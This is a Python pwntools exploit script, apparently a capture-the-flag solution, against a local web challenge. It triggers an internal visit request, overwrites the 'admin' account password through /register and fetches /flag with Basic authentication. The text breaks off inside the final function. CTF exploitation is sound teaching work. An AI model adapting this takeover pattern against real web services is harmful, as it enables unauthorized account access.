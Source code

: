 ```python
from pwn import *
import base64
import re
import time

HOST = "127.0.0.1"
PORT = 5000

new_password = "winky123"

def http_send(r, req):
    r.send(req)
    hdr = r.recvuntil(b"\r\n\r\n", timeout=10)
    if not hdr:
        return None, None, None
    m = re.match(br'HTTP/1\.\d\s+(\d{3})', hdr)
    status = int(m.group(1)) if m else None
    mlen = re.search(br'(?i)\r\nContent-Length:\s*(\d+)\r\n', hdr)
    clen = int(mlen.group(1)) if mlen else 0
    body = r.recvn(clen, timeout=10) if clen else b""
    return status, hdr, body
    
def visit():
    r = remote(HOST, PORT)
    req = (
        "POST /visit HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        "X-Target: http://127.0.0.1:8080/\r\n"
        "Content-Length: 0\r\n"
        "Connection: close\r\n"
        "\r\n"
    ).encode()
    http_send(r, req)
    r.close()
    
def register(r):
    req = (
        "POST /register HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        "X-Username: admin\r\n"
        f"X-Password: {new_password}\r\n"
        "Content-Length: 0\r\n"
        "Connection: keep-alive\r\n"
        "\r\n"
    ).encode()
    status, hdr, body = http_send(r, req)
    text = (body or b"").decode(errors="ignore")
    return status, text
    
def get_flag():
    r = remote(HOST, PORT)
    auth = base64.b64encode(f"admin:{new_password}".encode()).decode()
    req = (
        "GET /flag HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        f"Authorization: Basic {auth}\r\n"
        "Connection: close\r\n"
        "\r\n"
    ).encode()
    status, hdr, body = http_send(r, req)
    r.close()
    if body:
        m = re.search(br"<pre>(.*?)</pre>", body, re.S)
```